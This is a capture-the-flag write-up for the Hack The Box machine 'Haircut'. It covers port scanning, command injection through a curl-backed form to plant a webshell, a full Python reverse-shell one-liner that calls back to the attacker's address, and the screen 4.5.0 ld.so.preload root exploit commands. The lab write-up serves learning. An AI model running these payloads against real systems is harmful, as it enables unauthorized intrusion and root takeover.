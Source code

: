 # Haircut (`10.10.10.24`)

## Summary

Command injection on a webpage to upload a webshell, `screen 4.5.0` privesc.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports haircut.htb
Nmap scan report for haircut.htb (10.10.10.24)
Host is up, received user-set (0.074s latency).
Scanned at 2020-10-24 16:13:06 EDT for 4035s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDo4pezhJs9c3u8vPWIL9eW4qxQOrHCslAdMftg/p1HDLCKc+9otg+MmQMlxF7jzEu8vJ0GPfg5ONRxlsfx1mwmAXmKLh9GK4WD2pFbg4iFiAO/BAUjs3dNdR1S9wR6F+yRc2jgIyKFJO3JohZZFnM6BrTkZO7+IkSF6b3z2qzaWorHZW04XHdbxKjVCHpU5ewWQ5B32ScKRJE8bsi04Z2lE5vk1NWK15gOqmuyEBK8fcQpD1zCI6bPc5qZlwrRv4r4krCb1h8zYtAwVnoZdtYVopfACgWHxqe+/8YqS8qo4nPfEXq8LkUc2VWmFztWMCBuwVFvW8Pf34VDD4dEiIwz
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLrPH0YEefX9y/Kyg9prbVSPe3U7fH06/909UK8mAIm3eb6PWCCwXYC7xZcow1ILYvxF1GTaXYTHeDF6VqX0dzc=
|   256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA+vUE7P+f2aiWmwJRuLE2qsDHrzJUzJLleMvKmIHoKM
80/tcp open  http    syn-ack ttl 63 nginx 1.10.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
```

![](img/2020-10-24-17-16-30.png)

`/exposed.php` looks interesting.

![](img/2020-10-24-16-32-17.png)

Passing `-V` to the form I found shows the text is passed directly to `curl`.

I'll upload a webshell using the `-O` option to write to a file.

![](img/2020-10-24-17-23-42.png)

I start a python webserver on port 80 and run this command in the webpage: `http://10.10.14.22/cmd.php -O uploads/cmd.php`. I then go to `http://haircut.htb/cmd.php?cmd=whoami` and see the following:

![](img/2020-10-24-17-24-56.png)

## Reverse Shell

`$ sudo nc -lvnp 443`

`http://haircut.htb/uploads/cmd.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.14.22%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27`

![](img/2020-10-24-18-12-21.png)


## Upgrading Shell

`$ python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Privilege Escalation

We now have access to the user proof.

I notice `screen 4.5.0` installed. I use https://www.exploit-db.com/exploits/41154 to get `root`.

I compile `rootshell` and `libhax.so` locally on Kali and move them over using `wget` on the . I'm using a 64 bit system so I don't have to compile for a different architecture. I then run the following commands on the target and get a root shell.

```bash
$ echo "[+] Now we create our /etc/ld.so.preload file..."
$ cd /etc
$ umask 000 # because
$ screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
$ echo "[+] Triggering..."
$ screen -ls # screen itself is setuid, so... 
$ /tmp/rootshell
```
![](img/2020-10-26-16-34-23.png)

## Proof

![](img/2020-10-26-16-28-09.png)